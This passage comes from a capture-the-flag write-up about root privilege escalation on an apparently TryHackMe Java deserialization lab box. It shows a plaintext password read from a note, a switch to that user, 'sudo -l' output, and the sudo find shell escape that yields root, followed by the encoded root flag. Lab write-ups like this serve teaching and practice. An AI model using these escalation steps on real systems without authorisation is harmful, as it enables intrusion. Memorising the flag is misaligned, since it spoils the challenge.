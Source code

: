 ## 👑 Root Privilege Escalation

- There is another file in `/home/jboss` named `note`, read it.

  ```
  cmnatic@thm-java-deserial:/home/jboss$ cat note 
  Hey JBoss!
  
  Following your email, I have tried to replicate the issues you were having with the system.
  
  However, I don't know what commands you executed - is there any file where this history is stored that I can access?
  
  Oh! I almost forgot... I have reset your password as requested (make sure not to tell it to anyone!)
  
  Password: likeaboss
  
  Kind Regards,
  CMNatic
  ```
  
- OK, awesome, now we have credentials of user `jboss`, switch to that user and use `sudo -l` for final part of exploitation.

  ```
  cmnatic@thm-java-deserial:/home/jboss$ su jboss
  Password: 
  jboss@thm-java-deserial:~$ id
  uid=1001(jboss) gid=1001(jboss) groups=1001(jboss)
  
  jboss@thm-java-deserial:~$ sudo -l
  Matching Defaults entries for jboss on thm-java-deserial:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User jboss may run the following commands on thm-java-deserial:
      (ALL) NOPASSWD: /usr/bin/find
  ```
  
- There is a one liner that will give you root, you can find it on GTFOBins. Use it then read the last flag.

  ```
  jboss@thm-java-deserial:~$ sudo find . -exec /bin/sh \; -quit
  # whoami
  root
  
  # cat /root/root.txt
  QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
  ```

- Do a little bit of decoding and you should get final flag. First decode this Base64 string then crack the MD5 string and it's done.
